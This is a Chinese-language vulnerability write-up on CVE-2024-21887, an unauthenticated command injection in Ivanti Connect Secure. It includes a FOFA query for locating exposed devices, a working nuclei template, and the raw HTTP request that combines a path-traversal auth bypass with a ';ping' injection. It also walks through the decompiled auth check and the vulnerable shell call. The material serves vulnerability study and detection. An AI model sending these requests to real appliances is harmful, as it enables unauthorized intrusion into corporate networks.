

# CVE-2024-21887 Ivanti Connect Secure 命令注入漏洞分析 - 先知社区

CVE-2024-21887 Ivanti Connect Secure 命令注入漏洞分析

- - -

# 0x00 概述

Ivanti Connect Secure是一款提供远程和移动用户从任何支持Web的设备到企业资源的无缝、经济的SSL VPN解决方案。经过分析，该系统存在命令执行漏洞，攻击者可以绕过权限验证实现命令注入，从而获取目标系统权限。

| 字段  | 值   | 备注  |
| --- | --- | --- |
| 漏洞编号 | CVE-2024-21887 |     |
| 漏洞厂商 | Ivanti |     |
| 厂商官网 | [https://www.ivanti.com/ja/products/connect-secure-vpn](https://www.ivanti.com/ja/products/connect-secure-vpn) |     |
| 影响对象类型 | Web应用 |     |
| 影响产品 | Ivanti Connect Secure |     |
| 影响版本 | Version 9.x and 22.x |     |
|     |     |

# 0x01 漏洞影响

影响版本 Version 9.x and 22.x

# 0x02 漏洞环境

fofa 查询：

```plain
title="Ivanti Connect Secure"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122162444-b26f8168-b8ff-1.png)

# 0x03 漏洞验证和利用

这里使用nuclei进行验证，使用的模板如下：

```plain
id: poc
info:
  name: 直接发包命令注入
  author: xxx
  severity: high
  description: 直接发包命令注入，影响范围比较大
http:
- raw:
  - |
    GET /api/v1/totp/user-backup-code/../../license/keys-status/%3bping%20{{interactsh-url}}%3b HTTP/1.1
    Host: {{Hostname}}
    User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
    Connection: close
    Accept-Encoding: gzip, deflate
  unsafe: false
  cookie-reuse: false
  matchers-condition: or
  matchers:
  - type: word
    part: interactsh_protocol
    words:
    - dns
    condition: or
```

```plain
nuclei.exe -t .\poc.yaml -p http://127.0.0.1:8088 -iserver a.com -itoken token11 -l .\targets.txt
```

# 0x04 漏洞分析

在Ivanti 的公告中提到，在修复之后 Admin REST APIs 将会减少，因而就从此入手分析

在`restservice/api/init.py` 文件当中，找到rest apis的路由：

```plain
...
api.add_resource(
    Userrecordsynchronization,
    "/api/v1/system/user-record-synchronization",
    "/api/v1/system/user-record-synchronization/database/export",
    "/api/v1/system/user-record-synchronization/database/import",
    "/api/v1/system/user-record-synchronization/database/delete",
    "/api/v1/system/user-record-synchronization/database/retrieve-stats",
)
api.add_resource(
    WebProfile, "/api/v1/system/resource-profiles/web-profile/<path:applet_name>"
)
api.add_resource(
    ActiveSyncDevices,
    "/api/v1/system/status/active-sync-devices/<path:active_sync_session_id>",
    "/api/v1/system/status/active-sync-devices/<path:active_sync_session_id>/allow-access",
    "/api/v1/system/status/active-sync-devices/<path:active_sync_session_id>/block-access",
    "/api/v1/system/status/active-sync-devices",
)
api.add_resource(
    AwsAzureTestConnection,
    "/api/v1/system/maintenance/archiving/cloud-server-test-connection",
)
...
```

经过初步尝试，只有两个路由是可以无需授权访问的：

```plain
/api/private/v1/license/watermarks/xxx
/api/v1/totp/user-backup-code
```

接下来探究系统的鉴权如何进行，通过查看配置文件 `web.spec.cfg` 可以确定web应用通过一个perl脚本启动，这个脚本的内容如下：

```plain
#!/home/ecbuilds/int-rel/sa/22.3/bld1647.1/install/perl5/bin/perl -T
# -*- mode:perl; cperl-indent-level: 4; indent-tabs-mode:nil -*-

use lib ($ENV{'DSINSTALL'} =~ /(\S*)/)[0] . "/perl";
use strict;
use DSSafe;

my ($install) = $ENV{'DSINSTALL'} =~ /(\S*)/;

$SIG{HUP} = 'IGNORE';


if (!-e $install  . "/runtime/webserver/conf/secure.crt" ) { 
    system("/bin/mkdir -p " . $install . "/runtime/webserver/conf/"); 
    system("/bin/cp " . $install . "/webserver/conf/ssl.crt/secure.crt " . 
           $install .  "/runtime/webserver/conf");
}
if (!-e $install  . "/runtime/webserver/conf/intermediate.crt" ) { 
    system("/bin/mkdir -p " . $install . "/runtime/webserver/conf/"); 
    system("/bin/cp " . $install . "/webserver/conf/ssl.crt/intermediate.crt " . 
           $install .  "/runtime/webserver/conf");
}
if (!-e $ENV{'DSINSTALL'} . "/runtime/webserver/conf/secure.key" ) { 
    system("/bin/mkdir -p " .  $install .  "/runtime/webserver/conf");
    system("/bin/cp " . $install . "/webserver/conf/ssl.key/secure.key " . 
           $install .  "/runtime/webserver/conf");
}

my $command = $install . "/bin/web -s " . $install . "/runtime/webserver/conf"; 
exec($command) ; 
print "unable to run: $command\n";
exit(-1);
```

将 `/root/home/bin/web` 程序放入ida中反编译分析，在函数`FUN_000ab66` 当中找到这样的描述：

```plain
DAT_0014f210 = (uint *)DSGetStatementCounter
                                 ("request.cc",0xb40,"doAuthCheck",pcVar7,0x14,
                                  "Session timedout but request is API request. Sending 401"
                                 );
```

可见，鉴权操作在`doAuthCheck` 函数中进行

找到 `doAuthCheck`函数进行分析，可以看到如下代码：

```plain
iVar8 = strncmp(pcVar7,"/api/v1/totp/user-backup-code",0x1d);
if (iVar8 == 0) {
    return true;
}
```

如果所访问的路由以 `/api/v1/totp/user-backup-code` 开头，则不需要鉴权，因而可以构造这样的路由：

```plain
/api/v1/totp/user-backup-code/../../{{evil}}
```

来实现鉴权的绕过

在项目源码中搜索 `os.system` 最终找到一个路由 `/api/v1/license/keys-status/<path:node_name>` 可以触发命令注入：

```plain
def get(self, url_suffix=None, node_name=None):
    if request.path.startswith("/api/v1/license/keys-status"):
        try:
            dsinstall = os.environ.get("DSINSTALL")
            if node_name == None:
                node_name = ""
            proc = subprocess.Popen(
                dsinstall
                + "/perl5/bin/perl"
                + " "
                + dsinstall
                + "/perl/getLicenseCapacity.pl"
                + " getLicenseKeys "
                + node_name,
                shell=True,
                stdout=subprocess.PIPE,
            )
```

因而可以构造这样的报文实现未授权命令注入：

```plain
GET /api/v1/totp/user-backup-code/../../license/keys-status/%3bping%20{{interactsh-url}}%3b HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate
```

# 0x05 漏洞修复

厂商已发布漏洞修复程序，请前往以下地址进行更新。  
[https://forums.ivanti.com/s/article/KB-CVE-2023-46805-Authentication-Bypass-CVE-2024-21887-Command-Injection-for-Ivanti-Connect-Secure-and-Ivanti-Policy-Secure-Gateways?language=en\_US](https://forums.ivanti.com/s/article/KB-CVE-2023-46805-Authentication-Bypass-CVE-2024-21887-Command-Injection-for-Ivanti-Connect-Secure-and-Ivanti-Policy-Secure-Gateways?language=en_US)
